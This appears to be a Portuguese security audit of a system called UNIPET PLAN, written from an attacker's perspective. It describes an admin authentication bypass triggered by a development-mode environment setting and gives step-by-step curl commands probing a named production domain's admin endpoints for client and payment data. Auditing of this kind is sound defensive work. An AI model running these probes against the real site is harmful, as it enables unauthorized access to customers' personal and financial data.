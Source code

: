 # 🎯 Vetores de Ataque - Análise de Exploração por Hackers

**Sistema:** UNIPET PLAN  
**Foco:** Exploração prática de vulnerabilidades  
**Perspectiva:** Atacante/Pentester

---

## 🚨 ATAQUES CRÍTICOS - EXPLORAÇÃO IMEDIATA

### 🔓 ATAQUE 1: Bypass Completo de Autenticação Admin

**Vetor de Ataque:** Manipulação de variáveis de ambiente  
**Arquivo:** `server/auth.ts` (linhas 58-76)  
**Severidade:** CRÍTICA 🔴

#### Como o Hacker Exploraria:

**Cenário 1 - Configuração Incorreta em Produção:**
```bash
# Se o servidor estiver configurado incorretamente:
export NODE_ENV=development
npm start

# OU se o deploy foi feito com .env errado:
NODE_ENV=development node server/index.js
```

**Resultado:** 
- ✅ Acesso administrativo completo SEM credenciais
- ✅ Permissões de superadmin (`permissions: ['all']`)
- ✅ Bypass total de autenticação

**Passo a Passo do Ataque:**

1. **Reconhecimento:**
   ```bash
   # Verificar headers de resposta
   curl -I https://unipetplan.com.br/admin
   
   # Procurar por indicadores de ambiente
   X-Powered-By: Express
   X-Environment: development  # ← Jackpot!
   ```

2. **Exploração:**
   ```bash
   # Tentar acessar dashboard admin
   curl https://unipetplan.com.br/admin/api/dashboard/all
   
   # Se NODE_ENV=development, retorna dados COMPLETOS:
   {
     "clients": [...],
     "payments": [...],
     "pets": [...],
     "revenue": 150000,
     "contracts": [...]
   }
   ```
